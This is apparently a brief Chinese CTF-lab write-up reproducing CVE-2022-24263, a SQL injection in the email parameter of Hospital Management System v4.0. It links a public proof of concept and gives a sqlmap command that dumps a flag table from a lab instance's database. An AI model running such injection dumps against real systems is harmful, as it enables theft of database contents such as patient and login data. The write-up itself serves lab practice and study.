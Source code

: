 ```yaml
---
title: CVE-2022-24263【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

Hospital Management System v4.0 was discovered to contain a SQL injection vulnerability in /Hospital-Management-System-master/func.php via the email parameter.

POC：[Bypass authentication with SQL Injection · Issue #17 · kishan0725/Hospital-Management-System · GitHub](https://github.com/kishan0725/Hospital-Management-System/issues/17)

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310102335050.png)

## 2. 漏洞复现

burp suite 抓包跑sqlmap 

`http://eci-2zefn1t8l4jcfk9h5q9u.cloudeci1.ichunqiu.com/index1.php` 

```shell
python sqlmap.py -r post.txt -p email --batch -D ctf -T flag --dump
```

![flag.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310102339845.png)

